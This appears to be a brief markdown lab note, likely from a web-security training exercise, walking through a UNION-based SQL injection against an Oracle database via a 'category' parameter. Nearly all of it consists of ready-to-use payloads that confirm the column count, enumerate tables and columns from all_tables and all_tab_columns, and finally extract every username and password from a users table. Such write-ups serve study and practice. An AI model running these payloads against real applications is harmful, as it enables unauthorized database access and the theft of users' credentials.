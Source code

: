 ```yaml
---
dg-publish: true
---
```







- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+'abc','def'+FROM+dual--
```

- Payload to retrieve the list of tables in the database:

```Plain
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

- retrieve the details of the columns in the table:
    - `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
- retrieve the usernames and passwords for all users:

```Plain
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```